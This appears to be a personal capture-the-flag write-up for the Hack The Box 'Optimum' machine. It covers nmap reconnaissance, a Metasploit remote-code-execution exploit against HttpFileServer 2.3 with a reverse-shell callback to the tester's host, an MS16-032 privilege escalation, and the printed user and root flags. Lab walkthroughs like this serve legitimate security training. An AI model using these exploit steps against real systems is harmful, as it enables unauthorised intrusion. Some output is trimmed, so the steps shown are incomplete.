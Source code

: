 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Optimum
tags: []
---
```

**Start 20:50 13/08**

---
```
10.10.10.8
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.8                                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:53 IST
Nmap scan report for 10.10.10.8
Host is up (0.085s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 10.10.10.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:53 IST
Nmap scan report for 10.10.10.8
Host is up (0.085s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```

We found that `HttpFileServer 2.3` is vulnerable and that there is a `metasploit` module for it.

## Metasploit

Simply `search` for the module as follows:

```bash
msf6 > search HttpFileServer 2.3

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Afterwards we can `show options` and configure the `RHOSTS` and `LHOST`, then `run` the exploit.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] Using URL: http://10.10.14.24:8080/XnYaQ5x
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /XnYaQ5x
[*] Sending stage (176198 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\jbpsNfCvnjv.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.8:50065) at 2024-08-13 19:56:39 +0100
[*] Server stopped.

meterpreter > shell
Process 1196 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

## Flags

==user.txt==
User flag will be found in the same directory where the shell spawns.
```powershell
C:\Users\kostas\Desktop>type user.txt
type user.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

==root.txt==
Before moving on we need to `systeminfo` to enumerate the machine.
```powershell
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          9/8/2024, 10:02:16 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.411 MB
Virtual Memory: Max Size:  4.799 MB
Virtual Memory: Available: 4.092 MB
Virtual Memory: In Use:    707 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

We now need to `background` our current session, choose another module then run that module on our current session. 

```powershell
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\PLHKKmfm.ps1...
[*] Compressing script contents...
[+] Compressed size: 3741
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2104
</SNIP>

[+] Deleted C:\Users\kostas\AppData\Local\Temp\PLHKKmfm.ps1

meterpreter > shell
Process 1508 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Then we yet again find the root flag in the Desktop directory.
```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```


---

**Finished 21:15 13/08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
